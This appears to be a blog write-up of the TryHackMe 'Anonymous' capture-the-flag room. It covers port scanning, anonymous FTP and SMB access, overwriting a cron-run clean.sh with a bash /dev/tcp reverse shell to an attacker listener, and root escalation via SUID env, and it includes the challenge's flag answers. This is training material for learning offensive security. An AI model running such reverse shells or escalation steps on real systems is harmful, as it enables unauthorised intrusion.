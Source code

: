 ```yaml
---
title: "TryHackMe Anonymous CTF Writeup 2025"
datePublished: Sun May 04 2025 13:14:59 GMT+0000 (Coordinated Universal Time)
cuid: cma9obziw000n09kzbjc4ehi2
slug: tryhackme-anonymous-ctf-writeup-2025
cover: https://cdn.hashnode.com/res/hashnode/image/stock/unsplash/7vmA7Fx1Nyo/upload/d3c43037f1f00e2edd76f947a6f7fc5b.jpeg

---
```


![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746364091482/a8f3c850-5beb-4778-be48-a372415d0eb9.png align="center")

<div data-node-type="callout">
<div data-node-type="callout-emoji">💡</div>
<div data-node-type="callout-text">please note that “&lt;ip&gt;” in this writeup stands for the target machine’s IP given by THM</div>
</div>

I did an nmap scan for all possible ports

```plaintext
▶ nmap -p- <ip>
Starting Nmap 7.94SVN (https://nmap.org) at 2025-02-01 15:38 EST Nmap scan report for <homeip>
Host is up (0.10s latency).
Not shown: 65531 closed tcp ports (reset)
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
139/tcp open netbios-ssn
445/tcp open microsoft-ds
Nmap done: 1 IP address (1 host up) scanned in 345.14 seconds
```

1. Enumerate the machine.  How many ports are open?  
    `4`
    
2. What service is running on port 21?  
    `ftp`
    
3. What service is running on ports 139 and 445?  
    `smb`
    

We can figure out the SMB shares through smbmap

```plaintext
smbmap -H <ip>
```

Now we know three shares, one of which is `pics` , let’s try to access it

```plaintext
▶ smbclient //<ip>/pics
Password for [WORKGROUP\berzi]:
Try "help" to get a list of possible commands.
smb: \> put test.txt
test.txt does not exist
smb: \> whoami
whoami: command not found
smb: \> pwd
Current directory is \\<ip>\pics\
smb: \> ls
  .                                   D        0  Sun May 17 16:41:34 2020
  ..                                  D        0  Thu May 14 07:29:10 2020
  corgo2.jpg                          N    42663  Tue May 12 06:13:42 2020
  puppos.jpeg                         N   265188  Tue May 12 06:13:42 2020

		20508240 blocks of size 1024. 13306804 blocks available
```

I found two files inside, and tried my best to figure out if there was any steganography involved, i tried channel splitting, binwalking, extracting strings but eventually I gave up.

```plaintext
corgo2.jpg
puppos.jpeg
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746364418399/5b87a29c-083b-47ae-b4db-90616c94e11f.jpeg align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1746364427298/1ff56f7e-9d51-439b-a2ae-84e9b844890b.jpeg align="center")

turns out they were just ordinary dog images

1. There's a share on the user's computer.  What's it called?  
    `pics`
    

Now, we need to get a user shell, I tried if FTP was open to anonymous login

```plaintext
▶ ftp <ip> 21
Connected to 10.10.228.4.
220 NamelessOne's FTP Server!
Name (<ip>:berzi): anonymous

331 Please specify the password.
Password: 
230 Login successful.
```

There was only the `scripts` directory

```plaintext
ftp> ls
229 Entering Extended Passive Mode (|||49675|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000           55 May 04 12:02 clean.sh
-rw-rw-r--    1 1000     1000         3698 May 04 10:58 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
```

The `clean.sh` file seemed like a file used during cronjobs, so I wrote a reverse shell script and replaced it with the same.

```plaintext
▶ cat clean.sh 
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

Here’s the modified script

```plaintext
▶ cat clean.sh 
#!/bin/bash
bash -i >& /dev/tcp/"<ip>"/1337 0>&1
```

I opened a netcat listener on my attacker machine with `nc -lvp 1337` and ran the script on the target

```plaintext
ftp> put clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||64918|)
150 Ok to send data.
100% |*********************************************************************|    41      444.87 KiB/s    00:00 ETA
226 Transfer complete.
41 bytes sent in 00:00 (0.07 KiB/s)


ftp> bash clean.sh
?Invalid command.
```

this gave me the target shell on my attacker machine. the `user.txt` was right in the directory i logged into.

1. user.txt
    
    `90d6f992585815ff991e68748c414740`
    

I checked for files which had SUID bit-set applied.

```plaintext
find / -perm -u=s -type f 2>/dev/null
```

and among the output, I found quite a few, but `/usr/bin/env` worked for me. I ran this:

```plaintext
namelessone@anonymous.com:~$ env /bin/sh -p
# cd /root
# cat root.txt
4d930091c31a622a7ed10f27999af363
```

1. root.txt  
    `4d930091c31a622a7ed10f27999af363`